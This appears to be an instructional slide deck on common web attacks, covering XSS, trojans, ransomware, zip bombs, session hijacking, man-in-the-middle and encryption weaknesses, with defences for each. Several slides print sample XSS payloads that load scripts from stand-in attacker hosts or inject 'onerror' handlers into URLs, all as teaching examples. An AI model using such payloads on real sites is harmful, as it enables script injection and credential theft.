# Common Attacks

---
 
## What this Module Covers

- This module explores the following common attacks:
  - Cross site scripting (XSS)
  - Malicious file execution
  - Session hijacking
  - Encryption
  - Unsecured direct object reference
  - Failure to authorize/hidden URLs
  - Cross site request forgery (CSRF) 

- There are other attacks not covered in this module
  - OWASP maintains a project identifying the current top ten attacks
  - [OWASP Top Ten] https://owasp.org/www-project-top-ten/


Notes:

---

## Cross Site Scripting (XSS)

- A form of injection attack
- Malicious scripts are injected into an HTTP response from a trusted website
- Because the script is from a trusted source, the user's browser executes it as trusted code
- The browser cannot determine that the script originated from an untrusted source
- The XSS script has the same level of trust as the website the HTTP response originated from
- XSS is a common attack for stealing information stored in the user's browser 
- And for "drive-by" installation of malware on a computer


Notes:

---

## Types of XSS Attacks

- There are three types of XSS attacks
  - _Stored XSS:_ Also referred to as persistent or Type I attacks
  - _Reflected XSS:_ Also referred to as Type II attacks
  - _DOM XSS:_ Also referred to as Type 0 attacks
- XSS attacks rely on users clicking on a link to an infected URL
- Social Engineering refers to the manipulative methods used to induce users to take some action to trigger the XSS attack
  - Email phishing is one of the most common
  - Potential victims are sent an email with the infected URL and a deceptive description 
  - Eg. _Limited time promotion: claim your $100 discount on your next Amazon purchase!!_
  - The source of the email is usually spoofed or made to look like a legitimate sender the victim would trust
---

## Persistent XSS Attack

- An attacker injects or inserts a malicious script payload into a trusted website
- Vulnerable websites fail to check if the input is executable code
- Typical injection targets are blog comments and other user generated content
- A victim accessing the infected page will download the script payload in the HTTP response
- The victim's browser executes the XSS payload code as it loads the HTTP response
- Email phishing is usually used to trick users into visiting the infected URL

Notes:

---

## Persistent XSS Attack



Notes:

Image credit: https://spanning.com/blog/cross-site-scripting-web-based-application-security-part-3/

---
## Persistent XSS Attack Example

- A trusted blog allows users to post comments exactly as entered by the users
- An attacker posts the following comment which contains a malicious payload

```html
Well thought out essay, loved it!!
<script>http://attackerwebsite.com/maliciousscript.js</script>
```

- When a victim goes to the page containing the comment, the payload in the comment executes
- The attack payload remains in persistent storage on the server
- Multiple users may become victims of the attack
- Phishing is used to deceptively direct victims to the URL containing the payload
- _OMG!!!, can you believe what this guy wrote!!! (link to payload comment)_


---
## Sammy's Worm

- Sammy's worm was an early (2005) worm that propagated through the MySpace user community by using an XSS attack
- The worm displayed the message "Sammy is my hero," then sent a friend request to the author Sammy Kamkar
- When an infected profile page was viewed, the payload would be replicated on the viewer's MySpace page
- Within 20 hours, the worm was on one million MySpace pages - Sammy was arrested shortly after
- A code fragment from the attack is shown below - notice where the XSS payload is located
```html
but most of all Sammy is my hero
<div id="mycode" 
     style="background:url('javascript:eval(document.all.mycode.expr)')" expr="payload_code" ...
```
---

## Reflected XSS Attack

- A victim is induced to click on a malformed URL to a trusted website 
- The malformed URL is crafted to produce some sort of error HTTP response
- The attack payload is part the malformed URL
- Vulnerable websites will echo the attack payload as part of the HTTP  response
- When the response is opened in the victim's browser, the payload executes
- This has the effect of "bouncing" the attack payload off of a trusted website

---


## Reflected XSS Attack



Notes:

Image Credit: https://medium.com/iocscan/reflected-cross-site-scripting-r-xss-b06c3e8d638a

---

## Reflected XSS Attack Example

- An attacker sends a link to a target in email which looks like:

```html
    https://vulnerablewebsite.com?q=news<\script%20src=”http://evilsite.com/payload.js"
```
- Along with a deceptive description like _Please review this suspicious transaction on your account_
- A vulnerable website will return the unfiltered content of the query in the error message

```html
Error!!
    <script type=’text/javascript’>payload</script> not found.
```
- When the error page is loaded, the payload is executed in the victim's browser

---


## DOM XSS Attack

- The attack payload is executed by modifying the DOM “environment” in the victim’s browser
- The modification causes the original client side script to run in an “unexpected” manner
- The HTTP responses is not affected, the HTML does not contain the attack payload
- The payload is in the body of the page as part of the DOM tree
- The client side code now executes differently because of the DOM modification
- Generally executed by injecting malicious code as parameters or URI fragments
- The malicious code is then incorporated into the existing page code

---

## DOM XSS Attack



Notes:

Image Credit: https://medium.com/iocscan/dom-based-cross-site-scripting-dom-xss-3396453364fd


---

## Example #1 - Parameter Insertion 

- A website allows users to select their language but uses English as the default:

```html
  http://TrustedWebsite.com/page.html?default=English
```
- This is processed by a script like this:

```html
Select your language:

    <select><script>

    document.write("<OPTION value=1>"+decodeURIComponent(document.location.href.substring(document.location.href.indexOf("default=")+8))+"</OPTION>");

    document.write("<OPTION value=2>English</OPTION>");

    </script></select>
```
- Note that the URI parameter "default=English" becomes part of the script

---
## Example #1 - Parameter Insertion

- The attacker social engineers a victim to click on an altered link:

```html
  http://TrustedWebsite.com/page.html?default=<script>payload</script>
```
- The original Javascript code in the page does not expect the default parameter to contain HTML markup
- The markup is decoded and incorporated into the page's existing code
- When browser renders the infected page, the incorporated attack payload is executed
- The HTTP HTML response does not contain the payload
- This payload is delivered in a modified client-side script

---

## Example #2 - URI Fragment



- The example above is a typical Single Page Application where the current user selection is indicated by a URI fragment
- The user has selected image 2 so the URL is:
```html
  https://xss-game.appspot.com/level3/frame#2
```
- If the user selects image one, then the URL is:
```html
    https://xss-game.appspot.com/level3/frame#1
```

---

## Example #2 - URI Fragment

- Determining the current page is done in the browser without accessing the server
- A DOM XSS attack would be to cause the underlying code to throw an error and supply error handler that executes the attack payload
```html
  https://xss-game.appspot.com/level3/frame#xxx' onerror='payload()'
```
- The _onerror_ executes whatever JavaScript immediately follows it
- When this link is visited by a victim, the exploit will execute


Notes:

---

## The eBay XSS Attack


- In 2014, hackers exploited an XSS vulnerability in the eBay website
- Users were redirected to a fake login page used to harvest their login credentials
-BBC Report: _eBay redirect attack puts buyers' credentials at risk_ https://www.bbc.com/news/technology-29241563
- Other companies suffering major XSS attacks are Minecraft, Wordpress, Adobe and others

---

## Defences Against XSS Attacks

- XSS relies on social engineering like phishing attacks to get victims to click on the link provided by the attacker
  - First line of defence is to train users to _not_ click on unvetted links in emails or posts
  - Email filtering can block links or to allow only whitelisted links
- The primary website defence against XSS is to remove the website vulnerabilities that allow the injection of malicious code
  - For persistent XSS, this means not allowing code to inserted as if it were data
  - For reflected XSS, this means not allowing user supplied HTML in website responses
  - For DOM XSS, this means that all potential invalid or unexpected inputs are handled correctly

---

## HTML Encoding

- HTML encoding is the process of replacing HTML special characters with a coded replacements
  - This forces HTML to be treated as raw text and NOT as executable markup by the browser
  - For example "<" is encoded as "\&lt;"
- In the persistent XSS example, the injected payload was
```html
Well thought out essay, loved it!!
<script>http://attackerwebsite.com/maliciousscript.js</script>
```
- After HTML encoding, it is treated as text and looks like
```
Well thought out essay, loved it!!
&lt;script&gt;http://attackerwebsite.com/maliciousscript.js&lt;/script&gt;
```
---

## Other Defences Against XSS

- Any content that does not come from trusted sources is flagged as _untrusted content_
- Any untrusted content should be inserted only in specified and monitored locations
- No untrusted content is used as content in an HTML element without being HTML encoded
  - This ensures the content is treated as data and not as markup
- All attribute values must be attribute encoded
  - Attribute encoding is a subset of HTML encoding 
  - A different encoding is used because attributes are parsed differently than HTML elements
- Similar encoding rules exist for CSS and JavaScript

---

## Other Defences Against XSS

- Sanitize all untrusted content
- If some HTML markup is allowed in untrusted input, sanitizing removes all the illegal input
- For example, a comment section for a blog allows `<b>`, `<i>` and `<hr>` tags
- The uploaded HTML is
```html
    <b>Well thought out essay, loved it!!</b>
    <script>http://attackerwebsite.com/maliciousscript.js</script>
```
- The sanitized versions is
```html
    <b>Well thought out essay, loved it!!</b>
```
- Any untrusted content included in HTTP responses should be sanitized to prevent XSS reflection attacks
---

## Sanitizing Libraries

- There are multiple libraries that can be used for code sanitization
- Some standard libraries are:
- HTML sanitizer from _Google Closure Library_ (JavaScript/Node.js, docs)
  - https://developers.google.com/closure/library/
- DOMPurify (JavaScript, requires jsdom for Node.js)
  - https://github.com/cure53/DOMPurify
- PHP HTML Purifier 
  - http://htmlpurifier.org/
- Python Bleach
  - https://pypi.org/project/bleach/

---

## Other XSS Preventive Measures

- Implement Content Security Policy
  - A browser side directive to specify allowed sources of content
  - The directive below allows JavaScript to be loaded only from the page's site and from static.domain.tld  
```html
Content-Security-Policy: default-src: 'self'; script-src: 'self' static.domain.tld
```
- Hold all user generated or untrusted content for review before writing

---
## Malicious File Execution

- There are two basic types of malicious file execution
- Client side attacks
  - Malicious code is inserted into the client machine to intercept communications between the browser and the browser security mechanisms
  - Often depends on social engineering to deceive users into installation
- Server side attacks
  - Malicious code is inserted into the server environment to execute on the server or to  interfere with the server operations
  - Often the result of poor security protocols on the server side
  
---

## Client Side Attacks

- The primary vector used in a client side attack is a Trojan
  - Trojans are malicious code masquerading a trusted application or modify existing trusted applications
  - One of the most common client side attacks
  - Enables other attacks like _session hijacking_ and _manipulator in the middle_
- Other client side attack components are worms and viruses
  - Worms and viruses are used to propagate malware across systems
  - The payload of a worm or virus is often a Trojan
  


Notes:

Image Credit: www.guru99.com/learn-everything-about-trojans-viruses-and-worms.html

---
  
## Common Types of Trojans - RATs

- _Remote Access Trojan (RAT):_ Allows attacker to take full control a computer
  - Often disguised as a utility or incorporates itself into an existing program
  - Social Engineering often used to gain access to a machine for installation of the RAT
- Ef. The _Windows Support Scam_ is a social engineering attack for RAT installation
  - Users are served a phony webpage, shown on the next slide, often from some phishing attack
  - After calling the number, victims give scammers remote access to their computer
  - The scammers install a RAT disguised as an anti-virus or other utility
  - The scammers have free access to the infected machine to perform other attacks

---

## Windows Support Scam



Notes:
Image Credit: wolfstreet.com/2018/08/19/scam-critical-alert-from-microsoft-iexplore-www-support-me-malware/

---
## Common Types of Trojans - Loggers

- _Data Sending Trojan_: Uses keylogger technology to capture sensitive data
  - Example passwords, credit card and banking information
  - The data is then sent to the attacker
- Loggers are often part of malware with multiple functions or attacks
  - For example, collecting and sending all phone and computer data found on a computer
- Often modifies the display of trusted web pages to request additional information to harvest
- Login Trojans spoof legitimate login pages of well known sites to harvest user credentials

---

## Zeus Trojan



- The Zeus malware was a very widespread and highly damaging Trojans
- The main attack vector was a phishing email that with a URL for an XSS attack 
- Victims who clicked on the URL would have Zeus installed on their computer  
- Zeus didn't masquerade as an application but rather modified existing applications
- Currently, in "retirement," it is still the inspiration for many similar trojans

Notes:
Image Credit: https://techieandwhatever.blogspot.com/2017/06/what-is-zeus-malware-and-how-does-it.html

---
## Other Trojan Types

- _Destructive Trojan:_ Designed to destroy data stored a computer
  - Ransomware is variation on this since the encrypted data is essentially destroyed
- _Proxy Trojan:_ Uses the victim’s computer as a proxy server
  - Enables attackers to execute illicit acts from the infected computer
  - This is often used to creat BotNets or networks of controlled computers 
- _FTP Trojan_: Uses port 21 to enable FTP file uploads to tje victim’s computer
- _Security software disabler Trojan:_ Disables security software like firewall and antivirus software
- _Denial-of-Service attack Trojan:_ Designed to give the attacker ability to perform DOS attacks from victim’s computer.

---
## Ransomware - A Client Side Attack


- Ransomware is the leading malware problems exemplified by 2021 cases like Colonial Pipeline, JBS Foods and the NBA
- Typical attack vector is a phishing email using XSS attack to install the ransomware
- Exploits vulnerabilities that allow running malicious code on the target computer (eg. unpatched security holes)
- Ransomware can also be installed by a victim directly as part of what they believe is a legitimate application

Notes:

Image Credit: en.wikipedia.org/wiki/WannaCry_ransomware_attack#/media/File:Wana_Decrypt0r_screenshot.png

---

## Client Attack Defences

- Since client attacks often start with an XSS attack, mitigating XSS attacks also helps prevent client side attacks
- Trojans also spread via viruses and worms
  - Upto date anti-virus and malware scanning tools can block these vectors
  - Firewalls and other filtering tools can prevent access through open ports 
- Malware exploits unpatched security holes which can be mitigated by regular system updates
- Users and programs should have only the level of access required
  - Eg. Administrative privileges for installing software are only granted for specific applications

---

## Client Attack Defences


- Modern browsers have access to databases of know sources of malware 
- Following browser recommendations about unsafe sites mitigates XSS and other malware risks


---
## Server Side Attacks

- Server side attacks have two primary modes
- The first mode is to execute code on the server to control, damage or subvert the server
  - Installed malware can be used to harvest data, perform fraudulent actions or control the server
  - This often includes _backdoors_ to allow attackers access to the system
  - Most of the scenarios and mitigations for client side attacks also apply
  - Some specific attacks are covered in _session hijacking_
- The second mode is feed data to the server that is intended to cause existing programs on the server to be compromised
  - One goal of this mode is to render the server inoperable
  - Another is to put the server into an unstable state for further attacks
---
## OPM Hack and Data Breech


- In 2015, the OPM disclosed that data on 21.5 million people had been stolen
  - Data stolen included millions of SF-86 forms 
  - SF-86 forms contain the personal information used to process security clearances
- Considered one of the most devastating cyberattack ever on the US Government

Notes:

https://www.csoonline.com/article/3318238/the-opm-hack-explained-bad-security-practices-meet-chinas-captain-america.html
https://www.opm.gov/cybersecurity/cybersecurity-incidents/

---
## Office of Personal Management

- How the hackers gained access has not been revealed
- Likely through installation of malware by a compromised individual
- Once access was gained, hackers exfiltrated technical and administrative manuals for the system
- Keyloggers on database adminstrators' terminals were installed
- A backdoor into the system was also installed
- Before being shut down, hackers also stole top secret manuals and documents about OPM procedures for conducting security clearances

---

## Decompression Bomb Attack

- A decompression bomb is an archive file that is uploaded to a server
- The file is designed so that unpacking the file overwhelms the system's resources
- The _42.zip_ zip bomb file is 42 kilobytes in size but unpacks into 4.5 petabytes



Notes:

Image Credit: www.bamsoftware.com/talks/woot19-zipbomb/

---

## Decompression Bomb Attack


- Decompression bomb attacks are designed to either crash the server or put it into a vulnerable state
- Also used to disable anti-virus software
- Older AV software will try to extract the contents of a zip bomb which results in the software crashing
- Since the structure of zip bombs are well known, most up-to-date AV and threat scanning software can identify them
- The threat is mitigated by banning archive files or performing scans for potential bombs

Notes:

Image Credit: techbytesonline.com/what-actually-is-zip-bomb-zip-of-death/

---

## Session Hijacking

- HTTP is a stateless protocol but user interactions are usually stateful
  - For example, logging onto a web banking session
  - You have to be in an authenticated state before doing any banking
- User session state is managed by some sort of session management token
  - This token identifies the client browser as the correct user for that session
- Session hijack attacks involve stealing the token from a victim's session
  - The attacker can now take the place of the real user and perform actions the real user would be allowed to do in the session
  - For example, hijacking an on-line banking session and transferring funds to the attacker's account
- There are different types of session hijack attacks

Notes:

---
## Session Hijacking



Notes:

Image Credit: www.netsparker.com/blog/web-security/session-hijacking/

---

## Session Hijacking

- Session hijacking often requires obtaining the session token
- There are several ways this is done
  - Predicable session tokens
  - Client side attacks, like XSS, to steal tokens
  - Trojans and malware on the client machine
  - Session sniffing
- Session sniffing involves scanning HTTP traffic between a host and client to mine session tokens
- Two common forms of attacks that are related to session hijacking are:
  - Man in the Middle Attack
  - Man in the Browser Attack

Notes:

---

## Predicable Session Tokens



- Vulnerability is due to poor security design
  - Eg. using the user ID or other piece of data as the session token
- Short tokens are easier to guess or use brute force to spoof
- Tokens that follow a predicable sequence can be predicted
- To avoid this specific vulnerability
  - Use long and randomly generated session tokens
  - Change the token after each request or at random times
  
Notes: 

Image Credit: owasp.org/www-community/attacks/Session_Prediction

---

## Sniffing


Notes:

Image Credit: www.netsparker.com/blog/web-security/session-hijacking/


---

## Sniffing


- Attacker uses packet sniffing to monitor HTTP traffic and mine session tokens and credentials
- To avoid this specific vulnerability:
  - Use HTTPS for all traffic - all of the session traffic will be encrypted including tokens
  - Use HTTPOnly to prevent access to stored cookies on the client machine
  - Constantly changing session keys to invalidate any captured tokens
  - Use a VPN - All traffic move through and "encrypted channel" that cannot be sniffed
  - Avoid unsecured WiFi networks since you don't know who is listening
  - Don't rely on just session keys to establish ID - use URLs, usage patterns or other identifying data

Notes:

---
## Man in the Middle Attack

- Occurs when an attacker places themselves in a conversation between a victim and application
- often used to eavesdrop on communications
  - Allows the attacker to collect credentials and other information
  - Typical target are interactions between users and financial institutions
  - Or any application that requires authentication
- Also used to "spoof" or impersonate one of the parties
  - Often used to create a vulnerability to be exploited by a later attack
  - For example, spoofing wikipedia to install malware on the target's computer

Notes:

Image Credit: www.imperva.com/learn/application-security/man-in-the-middle-attack-mitm/

---

## Spoofing Attacks

- Man in the middle attacks can be initiated by a spoofing attack
- _IP Spoofing:_ Addresses in packet headers are altered so that traffic is routed to the attackers IP address
- _ARP Spoofing:_ Links attackers MAC address to a user's IP address on a network by using fake ARP messages
- _DNS Spoofing:_ Involves altering a DNS record so that users are sent to the attackers IP address



Notes:

Image Credit: thesslstore.com/blog/everything-you-need-to-know-about-arp-spoofing/

---
## Mitigating MitM Attacks

- Users should not use unsecured WiFi connections
- Browser warning about unsecured websites may be an attempted MitM attack
- Avoid using public networks - using VPNs is more secure
- Servers should use robust communications protocols and encryption (TSL and HTTP) for every page
- Timeouts to terminate idle applications
---

## Man in the Browser Attacks

1[](../images/Man-in-the-Browser-Secret-Double-Octopus-1200x684.png)

- MitB attacks uses trojans to manipulate traffic before it reaches the browser
  - Often done by infected libraries, browser extensions or helper applications
- Enables manipulation of traffic before it goes through security layers
- This is mitigated in the same way as other Trojan attacks

Notes:

Image Credit: doubleoctopus.com/security-wiki/threats-and-tools/man-in-the-browser-attack/

---
## Encryption Attacks

- Encryption attacks take a number of different forms
- The most obvious is to find weaknesses where:
  - Encryption is not used - data or messages are clear text
  - Sensitive data is stored in accessible logs or caches
  - Weak or old cryptographic algorithms are in use
  - Weak or easily cracked cryptographic keys and passwords ("qwerty123") are in use
- Other weakness occur when:
  - Encryption is done poorly or inconsistently
  - Failure to authenticate SSL certificates

---

## Ecryption Attack Examples

- Data is automatically decrypted when retrieved via an SQL query
  - Attacker could use an SQL injection attack to obtain information in clear text
- Simple hashes are used to store data
  - Attacker can crack hashes by brute force computation
  - Rainbow tables are precomputed tables of output of hashing functions
- Poor key management
  - Attacker can gain access to the directories where keys are stored
  - Attacker can sniff keys included in messages or headers
  - Keys can be altered or destroyed to cause the system to fail
  - Mobile applications are especially susceptible
 
---

## Encryption Attack Mitigation

- Keys are never hardcoded into applications
- Logging and caching of keys or other cryptographic data is blocked
- All sensitive data is encrypted at rest
- Ensure all cryptographic algorithms and tools are up-to-date and support strong encryption
- Avoid key leakage by using a secrets' manager like Hashicorp Vault
- Keep all unnecessary sensitive data  (eg. old credit card info) in an inaccessible location
- Encrypt all data in transit and enforce with protocols like HSTS - HTTP Strict Transport Security
- Enforce strong and regularly changed passwords

---

## Advanced Cryptographic Attacks

- _HTTPS spoofing_ sends a fake certificate when the initial connection request to a secure site is made
  - Fake has a copy of the thumbprint associated with the compromised application 
  - Can be used as part of a Man in the Middle attack
